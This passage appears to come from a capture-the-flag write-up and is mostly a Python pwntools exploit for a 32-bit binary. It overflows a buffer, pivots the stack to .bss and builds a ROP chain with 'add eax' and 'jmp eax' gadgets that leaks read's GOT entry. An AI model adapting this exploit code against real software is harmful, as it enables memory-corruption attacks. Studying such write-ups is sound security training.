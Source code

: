 ![add_eax](/assets/holygrail/add_eax.png)

Also lucky that there is a `jmp eax` gadget that we can use to call write.

The following code calls `write(1,read_GOT,4)`, to leak read.

```py
rop = ROP(elf)
leave_ret = rop.find_gadget(['leave','ret'])[0]
read = elf.plt['read']
add_eax = bv.find_next_data(bv.start,b"\x03\x02\x7a")
jmp_eax = bv.find_next_data(bv.start,b"\xff\xe0")
pop_3 = rop.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# pivot to bss
payload  = b"A"*(size-4)
payload += p32(elf.bss()) #ebp
payload += p32(read)
payload += p32(leave_ret)
payload += p32(0)
payload += p32(elf.bss(4))
payload += p32(elf.got['read'])

io.send(payload)
io.clean()

# call write(1,read_GOT,4)
payload2  = b""
payload2 += p32(add_eax)
payload2 += p32(jmp_eax)
payload2 += p32(pop_3)
payload2 += p32(1)
payload2 += p32(elf.got['read'])
payload2 += p32(4)
payload2 = payload2.ljust(0xa0,b"\x90")

io.send(payload2)
leak = u32(io.read(4))
print("[!] Leak:", hex(leak))

io.interactive()
```
